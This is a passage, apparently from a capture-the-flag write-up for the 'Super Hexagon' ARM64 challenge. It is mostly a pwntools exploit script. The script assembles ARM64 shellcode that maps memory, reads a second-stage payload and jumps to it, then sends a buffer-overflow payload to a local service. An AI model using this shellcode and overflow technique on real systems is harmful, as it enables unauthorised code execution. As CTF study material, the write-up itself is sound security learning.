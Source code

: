 ```python
        if (length-1)%2==0:
            print()

QEMU_SUPPORT()
TCR_EL1()
CPSR()
SPSR_EL3()
```
## Exploit code (S-SEL3)
```python
from pwn import *
from keystone import *

sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)
context.binary = e = ELF('./super_hexagon/share/_bios.bin.extracted/BC010')
ks = Ks(KS_ARCH_ARM64,KS_MODE_LITTLE_ENDIAN)
sc_st = 0x7ffeffffd006
shellcode = b''
shellcode += bytes(ks.asm(f'''\
    mov x5, #-1
    mov w4, #0x0
    mov w3, #0x0
    mov w2, #3
    mov x1, #0x1000
    mov x0, #0x0
    mov x8, #0xde
    svc #0x1337
    mov x11, x0
    mov w9, #0x0
    loop:                   
        add x1, x11, x9
        mov x8, #0x3f
        mov x0, #0
        mov x2, #0x1
        svc #0x1337
        add w9, w9, #1
        cmp x9, #0x1000
        bne loop

    mov x0, x11
    mov x1, #0x1000
    mov x2, #5
    mov x8, #0xe2
    svc #0x1337

    blr x11
''')[0])
assert b'\r' not in shellcode and b'\x0a' not in shellcode

p = remote('localhost',6666)
# p = process('./local_debug.sh')
# p = process('./local_debug_secure.sh')

payload = b'A' * 0x100
payload += p64(0xdeadbeef) 
payload += p64(e.sym.gets) # cmd = 1

sla(b'cmd> ', b'1')
sla(b'index: ', str(0))
sla(b'key: ', payload)
sleep(0.1)
```